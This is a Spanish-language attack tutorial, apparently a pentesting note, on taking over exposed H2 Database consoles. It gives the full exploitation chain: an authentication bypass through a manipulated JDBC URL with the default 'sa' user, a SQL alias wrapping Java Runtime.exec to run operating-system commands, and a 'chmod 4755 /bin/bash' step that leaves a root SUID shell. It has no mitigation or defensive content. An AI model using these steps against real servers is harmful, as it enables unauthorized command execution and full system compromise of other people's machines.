 # H2 Database Command Execution via JDBC URL Manipulation

**H2 Database** es un sistema de gestión de bases de datos relacional de código abierto, escrito en Java y diseñado para ser liviano y embebido en aplicaciones. Es ampliamente utilizado para pruebas, desarrollo y en entornos donde se requiere una base de datos rápida y de bajo consumo. Debido a su naturaleza flexible, en algunos casos puede quedar expuesto o mal configurado, permitiendo a un atacante ejecutar queries sin autenticación.

🚨 **Este ataque permite ejecutar comandos en el sistema operativo a través de la ejecución de queries en H2 Database sin necesidad de autenticarse.** 🚨

## Procedimiento

### 1. Manipulación del Parámetro JDBC URL
Al acceder al panel de inicio de sesión de H2 Database, podemos modificar el parámetro **JDBC URL** a una ruta que no exista. Esto nos permite omitir la autenticación, utilizando el usuario predeterminado **sa** sin contraseña.

### 2. Creación de un Alias para Ejecución de Comandos
Una vez logrado el acceso, se puede ejecutar una query para crear un alias que permita la ejecución de comandos del sistema. El siguiente comando crea un alias llamado **SHELLEXEC**:

```mysql
CREATE ALIAS SHELLEXEC AS $$ 
String shellexec(String cmd) throws java.io.IOException { 
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); 
    return s.hasNext() ? s.next() : "";  
}$$;
```

### 3. Ejecución de Comandos
Con el alias creado, podemos ejecutar comandos en el sistema operativo. Por ejemplo, para ejecutar el comando `id` y obtener información sobre el usuario del sistema:

```mysql
CALL SHELLEXEC('id')
```

### 4. Escalada de Privilegios (si H2 Database se ejecuta como ROOT)
Si el servidor H2 Database está corriendo con privilegios de **ROOT**, se puede intentar escalar privilegios otorgando a **/bin/bash** permisos SUID. Esto se logra ejecutando:

```mysql
CALL SHELLEXEC('chmod 4755 /bin/bash')
```

Esta acción permite que cualquier usuario ejecute un shell con privilegios de ROOT.
```
